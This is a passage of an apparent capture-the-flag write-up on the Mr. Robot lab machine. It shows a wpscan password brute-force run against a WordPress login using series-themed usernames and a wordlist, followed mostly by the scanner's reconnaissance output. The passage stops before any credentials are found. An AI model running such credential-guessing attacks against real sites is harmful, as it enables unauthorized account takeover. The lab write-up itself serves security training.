 We have tried to exploit the password of the admin user with the wordlist used in the previous exercise, but it has not been possible.

As we are all big fans of the Mr. Robot, we will try to do the same but with usernames that are related to the series. We use usernames that have to do with the protagonist, Elliot Alderson.

```
$ wpscan --url http://192.168.1.83 -U 'elliot, ELLIOT, alderson, ALDERSON, robot' -P /usr/share/wordlists/dirb/others/best1050.txt --password-attack wp-login
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.17
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] URL: http://192.168.1.83/ [192.168.1.83]
[+] Started: Fri Mar 25 18:00:48 2022

Interesting Finding(s):

[+] Headers
 | Interesting Entries:
 |  - Server: Apache
 |  - X-Mod-Pagespeed: 1.9.32.3-4523
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] robots.txt found: http://192.168.1.83/robots.txt
 | Found By: Robots Txt (Aggressive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://192.168.1.83/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: http://192.168.1.83/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://192.168.1.83/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 4.3.28 identified (Latest, released on 2022-03-11).
 | Found By: Emoji Settings (Passive Detection)
 |  - http://192.168.1.83/50b352e.html, Match: '-release.min.js?ver=4.3.28'
 | Confirmed By: Meta Generator (Passive Detection)
 |  - http://192.168.1.83/50b352e.html, Match: 'WordPress 4.3.28'
```